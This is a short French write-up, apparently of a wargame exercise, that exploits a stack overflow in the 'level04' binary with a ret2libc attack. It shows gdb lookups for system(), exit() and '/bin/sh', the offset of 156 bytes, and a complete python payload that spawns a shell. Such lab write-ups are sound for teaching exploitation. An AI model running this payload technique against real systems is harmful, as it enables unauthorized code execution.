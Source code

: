 ## Level04

![image](https://user-images.githubusercontent.com/29956389/95228349-80916800-07ff-11eb-9dad-f6d64850fcc5.png)

Dans le code du binaire on observe un appel a `fork()`.

Le processus fils lit sur l'entrée standart. Essayons de le faire overflow:

![image](https://user-images.githubusercontent.com/29956389/95228737-feee0a00-07ff-11eb-98ef-9157a7ad463f.png)

On écrase l'eip a l'offset 156.

Essayons donc une attaque ret2libc:


```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

```
(gdb) p exit
$3 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

Notre exploit est donc composé de :

`[ buffer permettant d'atteindre l'overflow ] [ Adresse system() ] [ Adresse exit() ] [ Adresse "/bin/sh" ]`

ou 

`[ 156 bytes ] [ 0xf7e6aed0 ] [ 0xf7e5eb70 ] [ 0xf7f897ec ]`

![image](https://user-images.githubusercontent.com/29956389/95229263-a703d300-0800-11eb-81ff-16582f063481.png)

`$ (python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7" + "\x0a"'; cat) | ./level04`
